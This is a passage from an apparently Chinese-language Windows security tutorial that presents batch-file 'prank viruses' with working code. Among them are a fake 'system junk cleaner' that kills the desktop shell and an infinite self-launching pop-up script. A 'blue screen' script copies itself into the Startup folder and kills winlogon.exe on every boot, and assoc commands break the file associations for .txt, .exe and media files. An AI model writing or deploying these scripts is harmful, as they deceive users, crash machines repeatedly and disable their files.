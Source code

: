 ```
> 方法如下: `Ctrl+alt+del` 呼出任务管理器

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8765.png)

在任务管理器界面，新建任务

![iamge](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8766.png)

输入 `explorer.exe` 重新启动进程

![image](https://github.com/AlphaXiao/CTF-Windows-Security/blob/main/Days/pictures/%E5%9B%BE%E7%89%8767.png)

## 恶搞病毒:暂时删除桌面
```
@echo off
title windows2003 系统垃圾清理color 0a
echo ##############################################
echo #	#
echo #	即将清理系统垃圾	#
echo #	#
echo ##############################################
pause
echo 垃圾清理中......
ping -n 15 127.0.0.1 >nul 2>nul 
taskkill /im explorer.exe /f >nul 2>nul echo #
echo 哈哈，你的电脑完犊子了！ ping -n 30 127.0.0.1 >nul 2>nul start c:\windows\explorer.exe
echo =======哥们，是不是吓死啦，嘿嘿======= pause
```
> **-n 表示 ping 的次数，后面的数字就是次数 127.0.0.1 是自己的电脑**

15. start 启 动
`start   c:\windows\explorer.exe`	启动 explorer.exe 与直接输入路径打开程序基本相同,但如果程序自己启动自己本身，那么使用 `start` **会弹出新的界面**

## 无限弹窗病毒
文件 1.bat 中写入： `start 1.bat`

16. `ntsd` 进程管理工具 可在 `cmd` 中当命令执行 `ntsd -c`	结束进程
- `ntsd -c q` 无询问地结束进程
- `ntsd -c -pn` 通过进行名称结束进程
- `ntsd -c q -pn winlogon.exe`	结束登录进程

## 蓝屏病毒
在 1.bat 中写入：

```
Copy 1.bat “C:\Documents and Settings\Administrator\「开始」菜单\程序\启动” 
ntsd -c q -pn winlogon.exe
```

17. `assoc` 文件关联 `assoc .txt=exefile`

## 文件失效病毒
- `assoc .txt=exefile` 表示：凡是遇到.txt 结尾的都当做 exe 文件处理
- `assoc .png=exefile` 
- `assoc .mp4=exefile` 
- `assoc .doc=exefile` 
- `assoc .jpg=exefile`
- `assoc .exe=txtfile` （ 绝 杀 ） 
- `assoc .bat=pngfile` （ 绝 杀 ）

```